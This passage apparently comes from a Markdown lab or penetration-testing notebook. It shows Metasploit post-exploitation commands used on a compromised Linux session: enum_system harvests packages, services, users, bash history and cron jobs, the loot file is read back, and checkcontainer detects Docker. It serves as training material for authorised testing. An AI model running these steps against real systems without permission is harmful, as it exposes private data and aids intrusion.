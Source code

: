 - Enumerate the **system**

```bash
search enum_system
use post/linux/gather/enum_system
info
# Description:
#   This module gathers system information. We collect installed 
#   packages, installed services, mount information, user list, user 
#   bash history and cron jobs
set SESSION 3
run
```

![Metasploit - post/linux/gather/enum_system](3-metasploitassets/image-20230422125507452.png)

```bash
loot
# Check the installed packages on the O.S.

cat /root/.msf4/loot/20230422105452_Linux_PostExp_192.215.55.3_linux.enum.syste_557868.txt
```

- Check if the target is a VM or a **container**

```bash
search checkcontainer
use post/linux/gather/checkcontainer
# Description:
#   This module attempts to determine whether the system is running 
#   inside of a container and if so, which one. This module supports 
#   detection of Docker, LXC, and systemd nspawn.
set SESSION 3
run
	[+] This appears to be a 'Docker' container
```

![Metasploit - post/linux/gather/checkcontainer](3-metasploitassets/image-20230422125830993.png)
